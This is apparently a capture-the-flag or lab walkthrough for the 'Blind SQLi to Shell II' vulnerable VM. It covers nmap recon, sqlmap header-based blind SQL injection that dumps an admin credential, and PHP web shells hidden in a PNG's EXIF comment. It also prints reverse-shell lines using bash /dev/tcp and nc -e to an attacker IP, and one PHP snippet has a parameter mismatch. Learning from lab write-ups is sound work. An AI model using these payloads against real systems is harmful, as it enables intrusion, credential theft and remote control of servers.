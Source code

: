 # Blind SQLi to Shell II
## _Walkthrough_

The first thing to do is to deploy the iso, I used VMWare, and get the ip (using the command __ifconfig__).



![image](https://user-images.githubusercontent.com/38219437/138444044-8bb3effe-29b2-486c-bc0d-4dc96f89407a.png)


## Recon

### Tecnologies used:

```
nmap -sC -sV 192.168.77.128 -p-

-sV check services and versions
-sC script scan
```
  **Output:**
```
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```
```
HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Thu, 21 Oct 2021 13:40:51 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.3.3-7+squeeze15
Content-Length: 1347
```
### Technologies Used


##### NGINX 0.7.67
##### PHP/5.3.3-7+squeeze15


## Attack method

### Blind SQLi

I use this website to learn more about the different uses of **sqlmap**:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

**SQLMap arguments I tried:**
```
$ sqlmap -u "http://192.168.77.128/cat.php?id=*" -p id

$ sqlmap -u "http://192.168.77.128/" --headers "referer:*"

$ sqlmap -u "http://192.168.77.128/" --headers "x-forwarded-for:*"
```

**SQLMAP to find the number of databases and it's names**

```
$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --dbs --dump-all

[*] information_schema
[*] photoblog

$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --tables -D photoblog


Database: photoblog

1. Tables: 4
2. Names: categories, pictures, stats, users

Table: users


$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" -D photoblog -T users --dump

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```
**Now that we have the username and the password, we can log in as admin.**

![image](https://user-images.githubusercontent.com/38219437/138444198-b7ffc49e-1a2a-4bee-a545-b7538b5352ec.png)

**After some recon we can note only one point to explore, and gain a reverse shell: upload images feature.**



![image](https://user-images.githubusercontent.com/38219437/138444141-db3947ae-5757-4e5c-bfbb-19f0aeca7db2.png)

### Upload png file with PHP backdoor

**Things I try without success:**
1. Just uploading a .php file instead of jpg file
2. Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.
3. Bypass uploads rules by intercepting the request and change the content-type to __image/jpeg__ 
(https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

4. Trying double extensions to bypass and upload php file image.jpg.php or image.php.jpg

## Final method

Most of the php web applications use the gd library to resize images. If so, the exif data will be excluded for the image. Fortunately, it was not the case! 

**First we create a php file with a php backdoor inside it:**

```
<?php $cmd=$_GET['c']; system($c); ?>
``` 
or
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.19.178.103/2222 0>&1'");?>.
```
or 
```
<?php

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

Explanation of the code:

1. First the code checks if there's a **c** parameter in the url;
2. Assigns the content of the parameter **c** to the variable **c**
3. System() is for executing a system command on the server.



**Using exiftool we are going to add a comment with our payload o the image**

```
exiftool "-comment<=file.php" tux.png
```

We are now ready to upload our __image__ and generate a reverse shell.


## Now you can upload the file. After the upload you can trigger the backdoor usin this for the first two:

```
(...).png/c.php
```
### And this one for the third:

```
(...).png/c.php?c=ls
```

__We need to add cmd.php, otherwise the photo is displayed instead of the code we want__

To create a reverse shell we use the following code instead of __ls__:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

Attackers machine:
```
nc -lvp 1234
```

Command cmd=
```
nc -e /bin/sh <attacker_ip> <nc_listener_port>
```
